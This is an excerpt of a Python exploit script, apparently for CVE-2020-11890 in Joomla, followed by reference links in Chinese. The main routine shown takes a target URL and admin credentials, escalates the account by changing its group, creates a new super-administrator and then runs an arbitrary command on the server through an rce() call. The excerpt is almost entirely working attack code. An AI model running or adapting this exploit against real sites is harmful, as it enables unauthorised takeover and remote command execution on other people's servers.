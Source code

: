         ap.add_argument("-esuper", "--emailsuper", default="hk@hk.com",
                        help="Super's Email")
        ap.add_argument("-cmd", "--command", default="whoami",
                        help="command")
        args = vars(ap.parse_args())
        # target
        url = format(str(args['url']))
        print '[+] Your target: ' + url
        # username
        uname = format(str(args['username']))
        # password
        upass = format(str(args['password']))
        # command
        command = format(str(args['command']))
        # username of superadmin
        usuper = format(str(args['usernamesuper']))
        # password of superadmin
        psuper = format(str(args['passwordsuper']))
        # email of superadmin
        esuper = format(str(args['emailsuper']))
        # session
        sess = requests.Session()
        if not try_admin_login(sess, url, uname, upass): sys.exit()
        token = checkAdmin(url, sess)
        if not changeGroup(url, sess, token):
            print "[-] Sorry,exploit fail!"
            sys.exit()
        sess = create_user(url, sess, usuper, psuper, esuper, token)
        token = checkSuperAdmin(url, sess)
        # Now you are Super-admin
        if token:
            # call RCE
            changeGroupDefault(url, sess, token)  # easy to view :))
            rce(sess, url, command, token)


    if __name__ == "__main__":
        sys.exit(main())

参考链接
--------

> https://xz.aliyun.com/t/7709\#toc-1> https://github.com/HoangKien1020/CVE-2020-11890
